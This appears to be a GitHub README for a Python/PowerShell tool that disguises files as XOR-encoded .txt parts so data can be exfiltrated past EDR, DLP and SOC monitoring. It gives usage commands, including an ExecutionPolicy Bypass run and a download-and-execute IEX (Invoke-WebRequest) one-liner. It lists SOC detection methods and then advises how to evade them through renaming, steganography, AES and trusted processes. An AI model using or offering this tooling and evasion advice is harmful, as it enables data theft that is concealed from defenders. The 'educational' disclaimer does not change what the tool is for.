 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)

✅ Uses **XOR encryption** with a random key for stealth encoding

✅ **No Base64** (avoiding security tool detection)

✅ Restores files exactly as they were (including executables)

✅ **No file deletion** (Original files remain intact)

✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python Data-Exfiltration.py /path/to/folder
```
- Example: 
  ```sh
  python Data-Exfiltration.py Data_imp
  ```
- This will convert all files in `Data_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python Data-Exfiltration.py /path/to/folder --decode
```
- Example:
  ```sh
  python Data-Exfiltration.py Data_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/FileConverter.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Data\Data_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

### 🛡️ **How to Mitigate Detection**
✔️ Rename `.txt` files to blend in (e.g., `README_part1.txt`).
✔️ Use **steganography** instead of plain XOR.
✔️ Encrypt `.txt` parts using **AES** rather than simple XOR.
✔️ Exfiltrate using trusted processes (e.g., embedding in known applications).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

